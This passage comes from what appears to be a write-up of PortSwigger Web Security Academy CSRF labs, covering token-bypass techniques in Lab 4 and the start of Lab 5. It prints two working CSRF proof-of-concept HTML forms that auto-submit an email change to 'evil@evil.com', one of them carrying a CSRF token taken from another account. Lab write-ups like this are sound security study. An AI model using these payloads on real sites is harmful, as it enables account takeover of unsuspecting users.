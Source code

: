 However, the whole parameter can be removed and it still works.

```html
<form class="login-form" name="change-email-form" action="https://0aee00170337a07580fdfe3e00f20056.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="evil@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

## Lab 4: Token not tied to User Session

To solve this lab, change the email of the victim. The lab name is obvious, steal a valid token from one account to another account.

In the page source, I can find the following:

![](../../.gitbook/assets/portswigger-csrf-writeup-image-4.png)

I can create the same PoC, I just have to add the `csrf` token line there. 

```html
<form class="login-form" name="change-email-form" action="https://0ac5001204753cd380e37be6007d002b.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="evil@evil.com">
    <input required type="hidden" name="csrf" value="pTCjsfi0MecsIhbKtpx0iY8mFMeBGH0b">
</form>
<script>
    document.forms[0].submit();
</script>
```

## Lab 5: Tied to non-session Cookie

To solve this lab, change the victim's email address. When logged in, there's a `csrfKey` cookie value:

![](../../.gitbook/assets/portswigger-csrf-writeup-image-22.png)
